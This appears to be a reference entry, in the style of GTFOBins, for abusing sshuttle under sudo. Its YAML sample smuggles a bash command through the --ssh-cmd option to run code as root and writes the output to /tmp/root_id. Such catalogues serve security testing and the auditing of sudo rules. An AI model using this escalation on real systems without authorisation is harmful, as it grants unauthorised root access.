 ```yaml
---
functions:
  sudo:
    - description: If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access. The output of the executed command is in /tmp/root_id
      code: |
        sudo sshuttle -r root@anything --ssh-cmd "/bin/bash -c 'id>/tmp/root_id'" 192.168.3.3
---
```

